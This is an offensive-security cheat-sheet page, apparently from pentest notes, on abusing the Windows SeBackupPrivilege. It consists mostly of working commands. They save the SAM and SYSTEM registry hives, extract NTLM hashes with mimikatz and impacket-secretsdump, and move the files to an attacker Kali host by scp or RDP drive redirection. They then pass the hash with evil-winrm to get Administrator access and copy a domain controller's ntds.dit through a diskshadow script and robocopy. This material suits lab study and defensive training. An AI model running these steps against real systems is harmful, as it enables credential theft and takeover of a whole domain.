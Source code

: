 # SeBackupPrivilege

Check privileges:

```powershell
whoami /priv
```

* SeBackupPrivilege must be present

[NLTM](../nltm.md)

#### Exploitation:

1. Create a temp directory:

```powershell
mkdir C:\temp
```

2. Copy the sam and system hive of HKLM to C:\temp and then download them.

```powershell
reg save hklm\sam C:\temp\sam.hive
```

and

```powershell
reg save hklm\system C:\temp\system.hive
```

3. Get hashs

_**Windows**_

Use mimikatz to get NLTM hashs:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "lsadump::sam /system:c:\temp\system /sam:c:\temp\sam" "exit"
```
{% endcode %}

_**Kali**_

Transfer files to kali machine

**Enable drive direction on RDP session:**

{% code overflow="wrap" %}
```sh
xfreerdp /v:192.168.224.220 /u:dave /p:lab +clipboard /cert:ignore /drive:KaliShare,/home/kali/share
```
{% endcode %}

**If SSH is available:**

```shell
sudo systemctl start ssh
#on kali
```

```powershell
scp C:\temp\sam.hive kali@192.168.X.X:/home/kali/
```

4. Obtain ntlm hashes:

{% code overflow="wrap" %}
```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```
{% endcode %}

5. Use evil-winrm to pass the hash and connect as Local Administrator:

```sh
evil-winrm -i <ip> -u "Administrator" -H "<hash>"
```



If you're on a domain controller and notice your current user has `SeRestore` / `SeBackup` privilege, then you can access the `ntds.dit` (hashes of all domain accounts) by first:

{% code title="script.txt" %}
```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
{% endcode %}

Storing the above in `script.txt`, then navigate to `C:\Windows\System32\`

Then run the following command:

```
.\diskshadow /s C:\Users\YOURUSER\Desktop\script.txt
```

You can then access the contents of `ntds` by doing a `robocopy`

{% code overflow="wrap" %}
```
robocopy /b E:\Windows\ntds C:\Users\YOURUSER\Desktop\ntds
```
{% endcode %}

You can then get the hashes similarly to how you would with the SAM / SYSTEM files

{% code overflow="wrap" %}
```
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
```
{% endcode %}
